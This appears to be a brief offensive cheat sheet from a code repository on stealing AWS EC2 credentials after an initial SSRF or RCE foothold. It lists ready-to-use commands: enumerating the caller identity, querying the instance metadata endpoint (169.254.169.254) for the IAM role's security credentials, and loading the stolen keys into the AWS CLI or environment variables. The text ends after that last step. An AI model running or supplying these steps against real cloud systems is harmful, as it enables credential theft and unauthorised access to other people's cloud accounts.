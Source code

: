 # AWS EC2 Credential Access

### We can grab the credentials by abusing metadata (Web Application with SSRF,RCE and so on)

## After the initial access:

#### 1) Enumerate the key (role)

 - aws sts get-caller-identity

#### 2) If there are roles associated with the key, we can grab the credentials by issuing a request to the metadata endpoint (v1 or v2)

 - curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_OF_PREVIOUS_KEY

#### 3) Configure the aws cli

 - aws configure

## OR use environment variables
